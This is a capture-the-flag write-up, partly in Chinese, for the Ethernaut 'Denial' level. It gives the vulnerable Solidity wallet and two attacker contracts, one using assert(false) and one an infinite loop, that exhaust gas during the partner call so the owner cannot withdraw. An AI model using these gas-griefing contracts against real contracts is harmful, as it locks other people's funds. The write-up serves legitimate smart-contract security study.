

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call `withdraw()` (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/math/SafeMath.sol";

contract Denial {
    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = payable(address(0xA9E));
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(
            amountToSend
        );
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```


这里的核心思想就是使整个交易在***partner.call{value: amountToSend}("")***这行run out of gas，才能使之后的代码无法执行，从而变成DoS攻击，而Attacker的写法分两种，根据官网文档

https://docs.soliditylang.org/en/latest/control-structures.html?highlight=revert%20assert#revert

因为assert会产生Panic，而0.8.0以前Panic会消耗掉所有gas，所以0.6.0的写法就是简单的assert(false)就可以了

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract DenialAttacker {
    
    receive() external payable {
        assert(false);
    }

}
```


0.8.0之后的版本就要写成这样一个无限循环，把gas消耗掉造成run out of gas的效果

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract DenialAttacker {
    uint256 private sum;
    
    receive() external payable {
        uint256 index;
            for (index = 0; index < type(uint256).max; index++) {
            sum += 1;
        }
    }

    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```


Resolution

https://medium.com/@safeZ1/ethernaut-lvl-20-denial-walkthrough-how-to-abuse-gas-in-solidity-b50291341e6

In this table we can see the difference between these keywords:



If you want to know more about error handling patterns, you can visit [this](https://docs.soliditylang.org/en/v0.6.6/control-structures.html#error-handling-assert-require-revert-and-exceptions).

for solving this level we must consider these 2 important points:

1- **assert(false)** consumes all remaining gas, and reverting all changes.
2- in the **call** function, the gas generally is not limited to 2300 and in this level, the fallback function is invoked with call and not send or transfer.